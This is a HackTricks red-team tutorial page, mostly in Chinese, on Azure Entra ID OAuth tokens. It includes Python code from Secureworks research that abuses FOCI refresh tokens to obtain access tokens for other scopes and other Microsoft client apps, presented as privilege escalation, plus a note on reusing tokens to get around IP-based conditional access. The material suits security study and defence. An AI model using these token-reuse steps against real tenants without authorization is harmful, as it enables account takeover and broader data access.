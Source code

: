# Az - Tokens & Public Applications

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## 基本信息

Entra ID 是微软基于云的身份和访问管理（IAM）平台，作为 Microsoft 365 和 Azure 资源管理器等服务的基础认证和授权系统。Azure AD 实现了 OAuth 2.0 授权框架和 OpenID Connect (OIDC) 认证协议，以管理对资源的访问。

### OAuth

**OAuth 2.0 的关键参与者：**

1. **资源服务器 (RS)：** 保护资源所有者拥有的资源。
2. **资源所有者 (RO)：** 通常是拥有受保护资源的最终用户。
3. **客户端应用程序 (CA)：** 代表资源所有者请求访问资源的应用程序。
4. **授权服务器 (AS)：** 在验证和授权客户端应用程序后向其发放访问令牌。

**范围和同意：**

* **范围：** 在资源服务器上定义的细粒度权限，指定访问级别。
* **同意：** 资源所有者授予客户端应用程序访问特定范围资源的权限的过程。

**Microsoft 365 集成：**

* Microsoft 365 利用 Azure AD 进行 IAM，并由多个“第一方”OAuth 应用程序组成。
* 这些应用程序深度集成，通常具有相互依赖的服务关系。
* 为了简化用户体验并保持功能，微软对这些第一方应用程序授予“隐含同意”或“预先同意”。
* **隐含同意：** 某些应用程序在没有明确用户或管理员批准的情况下**自动获得对特定范围的访问权限**。
* 这些预先同意的范围通常对用户和管理员都是隐藏的，使其在标准管理界面中不太可见。

**客户端应用程序类型：**

1. **机密客户端：**
* 拥有自己的凭据（例如，密码或证书）。
* 可以**安全地向授权服务器进行身份验证**。
2. **公共客户端：**
* 没有唯一凭据。
* 不能安全地向授权服务器进行身份验证。
* **安全隐患：** 攻击者可以在请求令牌时冒充公共客户端应用程序，因为授权服务器没有机制来验证应用程序的合法性。

## 认证令牌

在 OIDC 中使用**三种类型的令牌**：

* [**访问令牌**](https://learn.microsoft.com/en-us/azure/active-directory/develop/access-tokens)**：** 客户端将此令牌呈现给资源服务器以**访问资源**。它只能用于特定的用户、客户端和资源组合，并且**在到期之前无法被撤销** - 默认情况下为 1 小时。
* **ID 令牌**：客户端从**授权服务器**接收此**令牌**。它包含有关用户的基本信息。它**绑定到特定的用户和客户端组合**。
* **刷新令牌**：与访问令牌一起提供给客户端。用于**获取新的访问和 ID 令牌**。它绑定到特定的用户和客户端组合，并且可以被撤销。默认过期时间为**90 天**（对于不活动的刷新令牌）和**活动令牌没有过期**（可以从刷新令牌获取新的刷新令牌）。
* 刷新令牌应与**`aud`**、某些**范围**和**租户**相关联，并且只能为该 aud、范围（且不更多）和租户生成访问令牌。然而，这在**FOCI 应用程序令牌**中并非如此。
* 刷新令牌是加密的，只有微软可以解密它。
* 获取新的刷新令牌不会撤销先前的刷新令牌。

{% hint style="warning" %}
有关**条件访问**的信息**存储**在**JWT**中。因此，如果您从允许的 IP 地址请求**令牌**，该**IP**将被**存储**在令牌中，然后您可以使用该令牌从**不允许的 IP 访问资源**。
{% endhint %}

### 访问令牌 "aud"

在 "aud" 字段中指示的字段是用于执行登录的**资源服务器**（应用程序）。

命令 `az account get-access-token --resource-type [...]` 支持以下类型，每种类型将在结果访问令牌中添加特定的 "aud"：

{% hint style="danger" %}
请注意，以下仅是 `az account get-access-token` 支持的 API，但还有更多。
{% endhint %}

<details>

<summary>aud 示例</summary>

* **aad-graph (Azure Active Directory Graph API)**：用于访问遗留的 Azure AD Graph API（已弃用），允许应用程序读取和写入 Azure Active Directory (Azure AD) 中的目录数据。
* `https://graph.windows.net/`

- **arm (Azure Resource Manager)**：用于通过 Azure Resource Manager API 管理 Azure 资源。这包括创建、更新和删除虚拟机、存储帐户等资源的操作。
* `https://management.core.windows.net/ or https://management.azure.com/`

* **batch (Azure Batch Services)**：用于访问 Azure Batch，这是一项服务，可有效地在云中启用大规模并行和高性能计算应用程序。
* `https://batch.core.windows.net/`

- **data-lake (Azure Data Lake Storage)**：用于与 Azure Data Lake Storage Gen1 交互，这是一项可扩展的数据存储和分析服务。
* `https://datalake.azure.net/`

* **media (Azure Media Services)**：用于访问 Azure Media Services，提供基于云的视频和音频内容处理和交付服务。
* `https://rest.media.azure.net`

- **ms-graph (Microsoft Graph API)**：用于访问 Microsoft Graph API，这是 Microsoft 365 服务数据的统一端点。它允许您访问 Azure AD、Office 365、企业移动性和安全服务等服务的数据和见解。
* `https://graph.microsoft.com`

* **oss-rdbms (Azure Open Source Relational Databases)**：用于访问 Azure 数据库服务，支持开源关系数据库引擎，如 MySQL、PostgreSQL 和 MariaDB。
* `https://ossrdbms-aad.database.windows.net`

</details>

### 访问令牌范围 "scp"

访问令牌的范围存储在访问令牌 JWT 内的 scp 键中。这些范围定义了访问令牌可以访问的内容。

如果 JWT 被允许联系特定 API，但**没有范围**来执行请求的操作，则它**将无法使用该 JWT 执行该操作**。

### 获取刷新和访问令牌示例
```python
# Code example from https://github.com/secureworks/family-of-client-ids-research
import msal
import requests
import jwt
from pprint import pprint
from typing import Any, Dict, List


# LOGIN VIA CODE FLOW AUTHENTICATION
azure_cli_client = msal.PublicClientApplication(
"04b07795-8ddb-461a-bbee-02f9e1bf7b46" # ID for Azure CLI client
)
device_flow = azure_cli_client.initiate_device_flow(
scopes=["https://graph.microsoft.com/.default"]
)
print(device_flow["message"])

# Perform device code flow authentication

azure_cli_bearer_tokens_for_graph_api = azure_cli_client.acquire_token_by_device_flow(
device_flow
)
pprint(azure_cli_bearer_tokens_for_graph_api)



# DECODE JWT
def decode_jwt(base64_blob: str) -> Dict[str, Any]:
"""Decodes base64 encoded JWT blob"""
return jwt.decode(
base64_blob, options={"verify_signature": False, "verify_aud": False}
)
decoded_access_token = decode_jwt(
azure_cli_bearer_tokens_for_graph_api.get("access_token")
)
pprint(decoded_access_token)


# GET NEW ACCESS TOKEN AND REFRESH TOKEN
new_azure_cli_bearer_tokens_for_graph_api = (
# Same client as original authorization
azure_cli_client.acquire_token_by_refresh_token(
azure_cli_bearer_tokens_for_graph_api.get("refresh_token"),
# Same scopes as original authorization
scopes=["https://graph.microsoft.com/.default"],
)
)
pprint(new_azure_cli_bearer_tokens_for_graph_api)
```
## FOCI Tokens Privilege Escalation

之前提到过，刷新令牌应该与生成时的**范围**、**应用程序**和**租户**绑定。如果任何这些边界被打破，就有可能提升权限，因为将能够生成访问令牌以访问用户有权限的其他资源和租户，并且具有比最初预期更多的范围。

此外，**这对于所有刷新令牌都是可能的**，在[Microsoft identity platform](https://learn.microsoft.com/en-us/entra/identity-platform/)（Microsoft Entra 账户、Microsoft 个人账户以及 Facebook 和 Google 等社交账户）中，因为正如[**文档**](https://learn.microsoft.com/en-us/entra/identity-platform/refresh-tokens)所提到的：“刷新令牌绑定于用户和客户端的组合，但**不绑定于资源或租户**。客户端可以使用刷新令牌获取**在其有权限的任何资源和租户组合**中的访问令牌。刷新令牌是加密的，只有 Microsoft identity platform 可以读取它们。”

此外，请注意 FOCI 应用程序是公共应用程序，因此**不需要秘密**来进行服务器身份验证。

然后在[**原始研究**](https://github.com/secureworks/family-of-client-ids-research/tree/main)中报告的已知 FOCI 客户端可以[**在这里找到**](https://github.com/secureworks/family-of-client-ids-research/blob/main/known-foci-clients.csv)。

### Get different scope

继续之前的示例代码，在这段代码中请求一个不同范围的新令牌：
```python
# Code from https://github.com/secureworks/family-of-client-ids-research
azure_cli_bearer_tokens_for_outlook_api = (
# Same client as original authorization
azure_cli_client.acquire_token_by_refresh_token(
new_azure_cli_bearer_tokens_for_graph_api.get(
"refresh_token"
),
# But different scopes than original authorization
scopes=[
"https://outlook.office.com/.default"
],
)
)
pprint(azure_cli_bearer_tokens_for_outlook_api)
```
### 获取不同的客户端和范围
```python
# Code from https://github.com/secureworks/family-of-client-ids-research
microsoft_office_client = msal.PublicClientApplication("d3590ed6-52b3-4102-aeff-aad2292ab01c")
microsoft_office_bearer_tokens_for_graph_api = (
# This is a different client application than we used in the previous examples
microsoft_office_client.acquire_token_by_refresh_token(
# But we can use the refresh token issued to our original client application
azure_cli_bearer_tokens_for_outlook_api.get("refresh_token"),
# And request different scopes too
scopes=["https://graph.microsoft.com/.default"],
)
)
# How is this possible?
pprint(microsoft_office_bearer_tokens_for_graph_api)
```
## 参考文献

* [https://github.com/secureworks/family-of-client-ids-research](https://github.com/secureworks/family-of-client-ids-research)

{% hint style="success" %}
学习与实践 AWS Hacking：<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
学习与实践 GCP Hacking：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}
